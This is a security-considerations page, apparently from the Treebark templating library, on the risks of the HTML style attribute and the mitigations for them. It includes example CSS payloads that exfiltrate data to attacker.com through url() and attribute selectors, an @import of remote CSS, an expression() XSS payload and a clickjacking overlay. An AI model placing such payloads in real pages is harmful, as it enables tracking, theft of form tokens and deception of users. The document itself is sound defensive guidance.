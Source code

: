 # Security Considerations

## Style Attribute Security Risks

The `style` attribute is currently allowed on all HTML elements in Treebark as a global attribute. While this provides flexibility for styling, there are several security considerations to be aware of:

### Identified Risks

#### 1. CSS Injection via url()
CSS properties that accept URLs (e.g., `background-image`, `background`, `list-style-image`) can be used to:
- **Load external resources** that could track users or exfiltrate data
- **Make cross-origin requests** that could leak information via CSS attribute selectors

**Example:**
```json
{
  "div": {
    "style": "background-image: url(https://attacker.com/track?data=sensitive)",
    "$children": ["Content"]
  }
}
```

#### 2. JavaScript Execution (Legacy Browsers)
While modern browsers block these, older browsers (particularly Internet Explorer) had features that could execute JavaScript through CSS:
- **`expression()`** - IE-specific CSS expression that could run JavaScript
- **`behavior`** property - IE could load and execute HTC (HTML Component) files
- **`-moz-binding`** - Firefox XBL binding that could execute code

**Example:**
```json
{
  "div": {
    "style": "width: expression(alert('XSS'))",
    "$children": ["Content"]
  }
}
```

#### 3. Data Exfiltration
CSS can be used to exfiltrate data through various techniques:
- **Attribute selectors with background images** - Can steal form values, CSRF tokens, etc.
- **Font-face with unicode-range** - Can detect specific characters in text

**Example:**
```css
input[value^="a"] {
  background: url(https://attacker.com/leak?char=a);
}
```

#### 4. UI Redressing
CSS properties like `position`, `z-index`, `opacity`, and `transform` can be used for:
- **Clickjacking** - Overlaying invisible elements over legitimate UI
- **Content hiding** - Hiding warning messages or important information
- **Phishing** - Creating fake login forms over legitimate content

**Example:**
```json
{
  "div": {
    "style": "position: fixed; top: 0; left: 0; z-index: 9999; opacity: 0.01",
    "$children": ["Invisible overlay"]
  }
}
```

#### 5. CSS Imports
The `@import` directive can load external stylesheets, which could:
- Load additional malicious CSS
- Track users
- Potentially bypass Content Security Policy in some configurations

**Example:**
```json
{
  "div": {
    "style": "@import url(https://attacker.com/malicious.css)",
    "$children": ["Content"]
  }
}
```

### Current Behavior

Treebark provides comprehensive security through its design:
- ✅ **Escapes HTML** in interpolated values (prevents `<script>` injection)
- ✅ **Validates tag names** (prevents `<script>` tags)
- ✅ **Validates attribute names** (prevents `onclick`, `onerror`, etc.)
- ✅ **Structured style objects** with whitelist validation (prevents CSS injection)

**Style Attribute Security:**
As of the latest version, Treebark requires the `style` attribute to be a structured object rather than a string. This provides security by design:
- Only whitelisted CSS properties are allowed (100+ safe properties)
- Dangerous properties like `behavior`, `-moz-binding`, and `expression` are blocked
- Values containing `url()` (except data URIs), `javascript:`, or `@import` are rejected
- CamelCase property names are automatically converted to kebab-case

### Recommendations

For applications using Treebark with user-generated content or untrusted data, consider:

1. **Content Security Policy (CSP)**
   - Use `style-src 'self'` to prevent inline styles
   - Or use `style-src 'unsafe-inline'` with nonces

2. **Input Validation**
   - Validate and sanitize style values before passing to Treebark
   - Use an allowlist of safe CSS properties
   - Block or sanitize `url()` values

3. **Avoid User-Controlled Styles**
   - Don't allow users to directly control style attributes
   - Use predefined CSS classes instead
   - If custom styling is needed, validate against an allowlist

4. **Consider CSS Sanitization**
   - Implement a CSS sanitizer if user-controlled styles are necessary
   - Libraries like [sanitize-css](https://www.npmjs.com/package/sanitize-css) or similar can help
   - Block dangerous properties: `behavior`, `-moz-binding`, `expression`
   - Sanitize `url()` values to allow only data URIs or trusted domains

### Safe Usage Examples

**✅ Safe: Hardcoded styles**
```json
{
  "div": {
    "style": "color: red; font-size: 14px",
    "$children": ["Static content"]
  }
}
```

**✅ Safe: Interpolated safe values**
```json
{
  "div": {
    "style": "color: {{color}}; font-size: {{size}}px",
    "$children": ["Content"]
  }
}
```
With validated data: `{ color: "red", size: 14 }`

**⚠️ Risky: User-controlled full style attribute**
```json
{
  "div": {
    "style": "{{userStyle}}",
    "$children": ["Content"]
  }
}
```
If `userStyle` comes from untrusted input, this could be exploited.

### References

- [OWASP CSS Injection](https://owasp.org/www-community/attacks/CSS_Injection)
- [CSS Injection Attacks](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/)
- [Scriptless Attacks](http://www.segmentationfault.fr/publications/mario_heiderich_-_scriptless_attacks_cutting_edge_xss.pdf)
